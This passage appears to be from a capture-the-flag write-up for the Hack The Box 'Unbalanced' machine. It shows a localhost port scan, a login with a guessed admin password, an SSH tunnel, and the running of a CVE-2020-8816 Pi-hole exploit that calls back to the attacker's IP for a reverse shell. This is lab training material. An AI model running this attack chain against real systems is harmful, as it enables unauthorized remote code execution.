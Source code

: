 nc -z -v 127.0.0.1 1-10000
localhost [127.0.0.1] 8080 (http-alt) open
localhost [127.0.0.1] 5553 (?) open
localhost [127.0.0.1] 3128 (?) open
localhost [127.0.0.1] 873 (rsync) open
localhost [127.0.0.1] 22 (ssh) open

This returns two additional results: an http sever running on 8080 and an open but unknown usage on port 5553. Lets cURL localhost on port 8080 and see what we are returned:

[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>

This is a reponse from the Pi-Hole server. Queryads.php is a file containing in the Pi-Hole project. This is a good sign. Lets give it a hostattribute and see if it returns something more interesting:

A pi-hole page was returned. Within it we can also see a hostname and IP adress pihole.unbalanced.htb/172.31.11.3

Lets access it in the webbrowser. The first thing visible is it request to go to the home page. Let us redirect and once in we can see the versions running pihole. After a few minutes of googling we can see that this specific version 4.3.2 is vunerable to Remote Code Execute [CVE-2020-8816](https://github.com/AndreyRainchik/CVE-2020-8816).

Lets first login to the system. We known from the TODO file that a tempory admin password has been set, lets try admin. It works. We are in.

SSH Tunnel For Explotation Required
-----------------------------------
Since the service is listening locally on the target machine, I created an SSH tunnel and performed the exploitation on my machine. Now I can access the service on my localhost on port 8081.

# Creates the SSH Tunnel on port 8081
ssh -N -L 8081:127.0.0.1:8080 bryan@10.10.10.200

# Execute the CVE downloaded
python3 CVE-2020-8816.py http://127.0.0.1:8081 admin 10.10.10.4 9000                                                                         Attempting to verify if Pi-hole version is vulnerable
Logging in...
Login succeeded
Grabbing CSRF token
Attempting to read $PATH
Pihole is vulnerable and served's $PATH allows PHP
Sending payload

# Use Netcat to get into the shell



Having already installed a Pi-Hole at home and messed around with the configuration, from here the steps were easy. 


